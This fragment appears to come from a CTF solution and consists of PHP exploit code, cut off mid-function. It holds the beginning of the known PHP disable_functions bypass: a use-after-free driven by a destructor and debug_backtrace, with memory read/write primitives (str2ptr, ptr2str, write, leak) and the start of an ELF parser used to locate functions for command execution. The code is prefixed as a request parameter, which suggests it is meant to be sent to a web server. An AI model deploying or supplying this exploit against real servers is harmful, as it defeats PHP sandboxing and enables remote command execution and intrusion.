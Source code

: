 ```php
c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
```